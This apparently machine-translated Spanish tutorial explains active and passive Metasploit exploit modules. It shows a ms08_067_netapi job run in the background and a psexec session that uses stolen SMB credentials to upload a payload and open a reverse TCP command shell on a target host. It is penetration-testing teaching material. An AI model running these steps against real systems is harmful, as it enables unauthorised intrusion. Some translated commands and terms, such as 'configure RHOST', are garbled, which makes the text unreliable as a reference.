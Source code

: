 # TRABAJAR CON MÓDULOS ACTIVOS Y PASIVOS EN METASPLOIT

Todos los exploits en Metasploit Framework se clasificarán en dos categorías: activos y pasivos .

## EXPLOITS ACTIVOS
Los exploits activos explotarán un host específico, se ejecutarán hasta su finalización y luego se cerrarán.

Los módulos de fuerza bruta saldrán cuando se abra un caparazón de la víctima.
La ejecución del módulo se detiene si se encuentra un error.
Puede forzar un módulo activo a un segundo plano pasando '-j' al comando de explotación:

	exploit msf ( ms08_067_netapi )> exploit -j
	[*] Exploit ejecutándose como trabajo en segundo plano.
	exploit msf ( ms08_067_netapi )>

EJEMPLO
El siguiente ejemplo hace uso de un conjunto de credenciales adquiridas previamente para explotar y obtener un shell inverso en el sistema objetivo.

	msf> use exploit/windows/smb/psexec 
	msf exploit ( psexec )> configure RHOST 192.168.1.100
	RHOST => 192.168.1.100
	msf exploit ( psexec )> set PAYLOAD windows/shell/reverse_tcp
	PAYLOAD => windows / shell / reverse_tcp
	msf exploit ( psexec )> set LHOST 192.168.1.5
	LHOST => 192.168.1.5
	msf exploit ( psexec )> set LPORT 4444
	LPORT => 4444
	msf exploit ( psexec )> set SMBUSER víctima
	SMBUSER => víctima
	msf exploit ( psexec )> set SMBPASS s3cr3t
	SMBPASS => s3cr3t
	exploit msf ( psexec )> exploit
	
	[*] Conectando al servidor...
	[*] Manejador inverso iniciado
	[*] Autenticando como usuario 'víctima' ...
	[*] Subiendo carga útil ...
	[*] Creado \ hikmEeEM.exe ...
	[*] Vinculante a 367abb81-9844-35f1-ad32-98f038001003: 2.0@ncacn_np: 192.168.1.100 [\ svcctl] ...
	[*] Vinculado a 367abb81-9844-35f1-ad32-98f038001003: 2.0@ncacn_np: 192.168.1.100 [\ svcctl] ...
	[*] Obteniendo un identificador de administrador de servicios ...
	[*] Creando un nuevo servicio (ciWyCVEp - "MXAVZsCqfRtZwScLdexnD") ...
	[*] Cerrando la manija de servicio ...
	[*] Servicio de apertura ...
	[*] Iniciando el servicio ...
	[*] Eliminando el servicio ...
	[*] Cerrando la manija de servicio ...
	[*] Eliminando \ hikmEeEM.exe ...
	[*] Etapa de envío (240 bytes)
	[*] Se abrió la sesión 1 del shell de comandos (192.168.1.5:4444 -> 192.168.1.100:1073)
	